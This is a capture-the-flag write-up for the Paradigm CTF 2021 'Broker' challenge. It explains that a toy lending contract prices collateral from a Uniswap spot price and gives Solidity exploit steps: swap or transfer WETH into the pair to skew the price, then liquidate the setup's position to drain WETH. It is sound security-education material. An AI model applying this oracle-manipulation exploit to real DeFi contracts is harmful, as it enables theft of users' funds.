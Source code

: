# Broker Challenge
| Paradigm CTF 2021 Challenge - Oracle Manipulation Hack

## Description & Setup
| This broker has pretty good rates

The majority of the setup is in the `Setup.sol` smart contract, it contains:
- AMT Token Contract: been used as the treasury token for lending protocol
- IUniswapV2Factory Interface: interface for Uniswap V2 create pair & Setup
- Setup Contract: create and bootstrap the token/weth pool for borrowing against WETH

| ITEM                                | Description                    |
|-------------------------------------|--------------------------------|
| Contract Address <- Our hack target | Paradigm-CTF-2021-Broker       |
| Setup Contract                      | Paradigm-CTF-2021-Broker-Setup |
| Solution Contract                   | Solution                       |


Below is the setup logic: 
- 1st create a pair for AMT & WETH
- 2nd transfer 25 WETH & 500,000 AMT token to the pair
- 3rd deposit 25 eth to borrow 250,000 AMT token from the lending protocol

```solidity
  // create and bootstrap the token/weth pool for borrowing against WETH
    constructor() payable {
        require(msg.value == 50 ether);
        weth.deposit{value: msg.value}();

        token = new Token();
        pair = IUniswapV2Pair(factory.createPair(address(weth), address(token)));
        broker = new Broker(pair, ERC20Like(address(token)));
        token.transfer(address(broker), 500_000 * DECIMALS);

        // 1:25
        weth.transfer(address(pair), 25 ether);
        token.transfer(address(pair), 500_000 * DECIMALS);
        pair.mint(address(this));

        weth.approve(address(broker), type(uint256).max);
        broker.deposit(25 ether);
        broker.borrow(250_000 * DECIMALS);

        totalBefore = weth.balanceOf(address(broker)) + token.balanceOf(address(broker)) / broker.rate();
    }
```

Essentially, `broker.sol` is a simplified version of a ZERO-Interest Rate lending protocol. There are a lot of attack surfaces as a lending protoocl:
- Collaterialized assets has reentrancy risks
- Protocol might have reentrancy risks as well
- Protocol implementation issue
- Oracle attacks / manipulation & more

## Solution

The way to attack this lending protocol is relatively easy to figure out.
The key of the manipulation is within these lines of the code:
```solidity
    function rate() public view returns (uint256) {
        (uint112 _reserve0, uint112 _reserve1,) = pair.getReserves();
        uint256 _rate = uint256(_reserve0 / _reserve1);
        return _rate;
    }
```
The oracle implementation is without the TWAP just brutally using the spot price. 
Thus, we can use flashloan to manipulate the spot price and perform the attack, or just simply use the amount of tokens we had to perform the attack.
In the liquidate function:
```solidity
  // safeDebt calculation
    function safeDebt(address user) public view returns (uint256) {
          return deposited[user] * rate() * 2 / 3;
    }

 // repay a user's loan and get back their collateral. no discounts.
    function liquidate(address user, uint256 amount) public returns (uint256) {
        require(safeDebt(user) <= debt[user], "err: overcollateralized");
        debt[user] -= amount;
        token.transferFrom(msg.sender, address(this), amount);
        uint256 collateralValueRepaid = amount / rate();
        weth.transfer(msg.sender, collateralValueRepaid);
        return collateralValueRepaid;
    }
```
If user's debt is bigger than their safeDebt which means user borrowed AMT token price goes rocket.
Anyone can call liquidation method to liquidate user's fund.

Implementation:
Step 1: Trade 13 ETH for AMT token -> make the token price go roket
```solidity
 // trade 13 eth for some tokens
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(token);
    uint256[] memory tokensReceived = router.swapExactTokensForTokens(
        ethToSend,
        1,
        path,
        address(this),
        type(uint256).max
    );
```

Step 2: we can liquidate the guy with the tokens received
```solidity
    uint256 receivedCollateral = broker.liquidate(address(setup), tokenReceived);
    require(weth.balanceOf(address(this)) > balanceBefore);
```
Although the given solution manipulation is not profitable, but we can for sure manipulate the oracle.
I found another method online, which has similar idea:

Step 1: skew the uniswap ratio by buying lots of tokens
```solidity
    weth.transfer(address(pair), weth.balanceOf(address(this)));
```
Step 2: since win condition is when there are less than 5 eth in the pool, thus we only need to liquidate 21 eth.
```solidity
    uint256 liqAmount = 21 ether * rate;
    broker.liquidate(address(setup), liqAmount);
```

